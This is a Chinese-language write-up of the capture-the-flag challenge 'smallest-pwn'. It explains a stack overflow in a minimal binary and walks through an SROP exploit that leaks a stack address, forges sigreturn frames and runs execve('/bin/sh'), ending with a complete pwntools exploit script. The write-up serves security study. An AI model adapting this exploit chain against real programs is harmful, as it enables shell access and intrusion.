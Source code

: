 ```yaml
---
abbrlink: '0'
---
```

## 360 春秋杯 smallest-pwn

### 基本情况

只有几行汇编，通过系统调用号 0 调用 read 向 buf 写入 0x400 字节，造成栈溢出。

直观可以看到一个 gadget ：``syscall;ret;`` ，这是 srop 非常典型的 gadget 。

### 思路

由于程序中并没有 sigreturn 调用，所以我们得自己构造，正好这里有 read 函数调用，所以我们可以通过 read 函数读取的字节数来设置 rax 的值。重要思路如下

- 通过控制 read 读取的字符数来设置 RAX 寄存器的值，从而执行 sigreturn
- 通过 syscall 执行 execve("/bin/sh",0,0) 来获取 shell。

基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址 (即第二个程序起始地址) 为源程序的第二条指令，并且会设置 rax=1
- 那么此时将会执行 write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入 payload
- 再次读取构造 sigreturn 调用，进而将向栈地址所在位置读入数据，构造 execve('/bin/sh',0,0)
- 再次读取构造 sigreturn 调用，从而获取 shell。

#### step 0

溢出写入 3 个程序起始地址（start_addr），用于 step012 结束后返回程序开始位置。

```python
# ==step0==
payload = p64(start_addr) * 3	#step012
p.send(payload)
```

#### step 1

首先是要写入 1 字节，让 rax 变成 1 （write 系统调用号）。然后是需要修改跳转地址到 ``0x4000B3`` 绕开 xor ，保持 rax 的值，刚好写入指针指向的是 step 1 的返回地址，step 0 提前布置写入了 start_addr ，这里刚好覆盖最后一字节。

```python
# ==step1==
## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
p.send('\xb3')	# 第二个start_addr
				# 写入一个字节，让rax变成1，也就是系统调用号1 write
				# 同时这个是覆盖写入第二个start_addr最低字节，直接控制跳转0x4000B3保存rax的值
```

#### step 2

接收地址，正常跳转回 start_addr 

```python
# ==step2==
stack_addr = u64(p.recv()[8:16])	# 接受rsp下一个内存块中的栈地址
									# 第三个start_addr
log.success('leak stack addr :' + hex(stack_addr))
```

#### step 3

写入伪造的 SigreturnFrame 。写入的指针又是当前栈的返回地址，所以 payload 先填入返回地址 start_addr 。然后用 8 字节填充之后再写入 SigreturnFrame ，ROP 之后 rsp 会向高地址抬 8 个字节（指向这 8 个字节所在的地址），空出来放 step 4 的 syscall_ret 。sigframe 不去除前 8 字节的 rt_signalret 是留空间给 step 4 用作填充空间。

```python
# ==step3==
## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)	# start_addr改写自己返回地址
p.send(payload)
```

#### step 4

syscall_ret 填充 'a'*8 ，\x00 填充 rt_sigreturn  。用 syscall_ret 主动恢复内存状态，就不需要用到 re_sigreturn 被动调用恢复内存状态。（这点是我根据其他类似题目 wp 中 str(sigframe[8:]) ，signal 栈帧前面是主动的 syscall(15) 调用  rt_signreturn ，就不需要 signal 栈帧中的 rt_signreturn 被动调用）

```python
# ==step4==
## set rax=15 and call sigreturn、
sigreturn = p64(syscall_ret) + '\x00' * 7	# 覆盖rt_sigreturn;填充15字节
											# 修改返回地址到syscall ret
p.send(sigreturn)
```

#### step 5

和 step 3 一样写入 signal 栈帧，这里写入的是 execve 的。

```python
# ==step5==
## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + '\x00' * 8 + str(sigframe)	#start_addr 改写自己返回地址
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
p.send(payload)
```

#### step 6

与 step 4 一样主动调用 rt_sigreturn 恢复内存状态。

```python
# ==step6==
p.send(sigreturn)	# 调用syscall
p.interactive()
```

### EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context(log_level='debug',arch='amd64')

p = process('./smallest')
small = ELF('./smallest')


syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0

# ==step0==
payload = p64(start_addr) * 3	#step012
p.send(payload)	#第一个start_addr

# ==step1==
## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
p.send('\xb3')	# 第二个start_addr
				# 写入一个字节，让rax变成1，也就是系统调用号1 write
				# 同时这个是覆盖写入第二个start_addr最低字节，直接控制跳转0x4000B3保存rax的值
# ==step2==
stack_addr = u64(p.recv()[8:16])	# 接受rsp下一个内存块中的栈地址
									# 第三个start_addr
log.success('leak stack addr :' + hex(stack_addr))

# ==step3==
## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)	#start_addr 改写自己返回地址
p.send(payload)

# ==step4==
## set rax=15 and call sigreturn、
sigreturn = p64(syscall_ret) + '\x00' * 7	# 覆盖rt_sigreturn;填充15字节
											# 修改返回地址到syscall ret
p.send(sigreturn)

# ==step5==
## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + '\x00' * 8 + str(sigframe)	#start_addr 改写自己返回地址
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
p.send(payload)
## ==step6==
p.send(sigreturn)	# 调用syscall
p.interactive()
```

### 参考文章

* [2017 429 ichunqiu ctf smallest(pwn300) writeup](https://blog.csdn.net/qq_29343201/article/details/72627439)
* [ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop-zh/#_11)
